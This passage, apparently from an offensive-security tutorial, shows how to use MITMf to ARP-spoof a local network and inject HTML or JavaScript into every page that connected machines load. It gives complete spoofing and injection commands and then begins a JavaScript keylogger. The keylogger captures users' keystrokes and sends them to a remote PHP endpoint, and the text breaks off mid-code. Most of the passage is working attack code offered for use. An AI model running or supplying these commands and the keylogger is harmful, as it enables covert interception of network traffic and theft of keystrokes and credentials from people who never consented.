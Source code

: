 **Inject HTML Code**

```html
cd ~/
mkdir demo && cd demo
echo '<div>HTML code to inject</div>' > ~/demo/inject.html
cd /opt/mitmf/
sudo ./mitmf.py --inject --html-file ~/demo/inject.html --spoof --arp --gateway 192.168.1.1 -i wlp2s0
```

**Inject JS Code**

```html
cd ~/
mkdir demo && cd demo
echo '<script type="text/javascript">alert("JS code to inject");</script>' > ~/demo/inject.js
cd /opt/mitmf/
sudo ./mitmf.py --inject --js-file ~/demo/inject.js --spoof --arp --gateway 192.168.1.1 -i wlp2s0
```

**Important:** If you have Apache and/or SMB installed, you will need to stop those services before to run MITMf to avoid any port conflict.

* * *

<div id="bookmark-5"></div>

## Deploy The Attack

For our test, we will choose the second option, by injecting a Web-Based Keylogger in JavaScript which will be present on every page visited by each machine connected to the network. The keylogger will grab all the user's keystrokes and send them to a remote server. We have published a few weeks ago another tutorial explains how to [create a web-based keylogger in javascript](https://neoslab.com/2021/06/28/how-to-create-a-web-based-php-javascript-keylogger/) which can be useful if you want to understand how a keylogger works.

<div id="bookmark-5-1"></div>

### Create JS Keylogger file - keylogger.js

```html
if((window.jQuery))
{ 
    console.log("jQuery Found");
}
else
{ 
    console.log("jQuery Not Found");
    var script = document.createElement('script');
    script.src = 'https://code.jquery.com/jquery-3.3.1.min.js';
    document.body.appendChild(script);
}

function c(d)
{
    jQuery.ajax(
    { 
        dataType: "jsonp",
        type: "GET",
        url: "https://example.com/keylogger.php",
        jsonp: "keypressed",
        data: 
        { 
            altnKey: d.altKey ? 1:0,
            ctrlKey: d.ctrlKey ? 1:0,
            userKey: d.key,
            targKey: d.target.id,
```